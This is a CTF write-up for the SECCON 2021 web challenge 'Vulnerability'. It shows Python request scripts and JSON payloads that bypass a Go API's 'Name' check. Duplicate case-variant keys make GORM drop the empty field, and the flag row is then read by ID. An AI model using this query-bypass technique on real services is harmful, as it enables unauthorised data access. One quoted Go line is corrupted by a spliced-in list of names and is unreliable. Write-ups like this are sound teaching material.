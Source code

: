 *2021-12-11*

#ctf-writeup 

Link: https://ctf.seccon.jp/

***

# Vulnerability
**Category: web**

## Description
How many vulnerabilities do you know?
https://vulnerabilities.quals.seccon.jp

## Method
The code is written in Go. This website also has two API Endpoints: a GET request to https://vulnerabilities.quals.seccon.jp/api/vulnerability will give you all the vulnerabilities in the database (except the flag), and a POST request to the same endpoint with the parameter `name=?` will give you the details about a specific vulnerability.

There is a vulnerability in the database that corresponds to the name of the flag. Unfortunately the name is set as an environment variable, so it is hidden to us.

## Basic POST script
This script makes a request to get information about the SGAxe vulnerability:

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "SGAxe"
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)
```

It returns the following:

```json
200
{"Logo":"/images/sgaxe.png","URL":"https://cacheoutattack.com/"}
```

## General thoughts
Since the description is: "How many vulnerabilities do you know?", there will likely be a vulnerability with Go, or possibly with Gin.

https://security.snyk.io/vuln/SNYK-GOLANG-GITHUBCOMGINGONICGIN-550031

It's also possible that we can use the way GORM runs queries. Supposedly, if the other fields in the query are blank, it will use the Model object to run the query.

The following query returns the Heartbleed object:

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "Heartbleed",
    "ID" : 1
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)
```

While this one does not, because the ID does not match.

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "Heartbleed",
    "ID" : 2
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)

```

The problem is that the Go code checks for fields being either blank or nil through the following lines:

```go
if name, ok := json["Name"]; !ok || name == "" || name == nil {
    c.JSON(400, gin.H{"Error"","DROWN Attack","CCS Injection","httpoxy","Meltdown","Spectre","Foreshadow","MDS","ZombieLoad Attack","RAMBleed","CacheOut","SGAxe"]}: "no \"Name\""})
    return
}
```

## Solution
In order to solve this challenge we need to circumvent the `Name` check. However, the problem is that if we specify a name then we can not get the flag because the name would be added to the SQL query. Since we don't know the name, the query would not return any results.

We need to find a way to make the code think we are sending a name but not have it affect the query.

GORM, the query library used, has the following in it's documentation:
```
NOTE When querying with struct, GORM will only query with non-zero fields, that means if your field’s value is 0, '', false or other zero values, it won’t be used to build query conditions, for example...
```

This means that by making `Name` the empty string, a zero value in Go, then GORM will not evaluate it in the query.

The following JSON seems to work. By sending the name twice, one of them the empty string and the other not, the non-empty string will allow the `Name` check to pass, but the query itself will use the empty string, thus not evaluating it.

```json
{
    "Name": "a",
    "name": "",
}
```

Then, to specify the row containing the flag in the query we can use the `ID` column that was added by the `gorm.Model` when defining the `Vulnerability` struct.

```go
type Vulnerability struct {
    gorm.Model
    Name string
    Logo string
    URL  string
}
```
https://gorm.io/docs/models.html#Embedded-Struct

Flag was the 14th row added, so it's `ID` is 14.

Posting with the following JSON will retrieve the flag:
```json
{
    "Name": "a",
    "name": "",
    "ID": 14
}
```

```json
{"Logo":"/images/SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}.png","URL":"seccon://SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}"}
```

## Solve Script
```python
import requests

def main():
    HOST = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"

    json = {
        "Name": "a",
        "name": "",
        "ID": 14
    }

    r = requests.post(HOST, json=json)

    print(r.text)

main()
```

## Flag
`SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}`

***
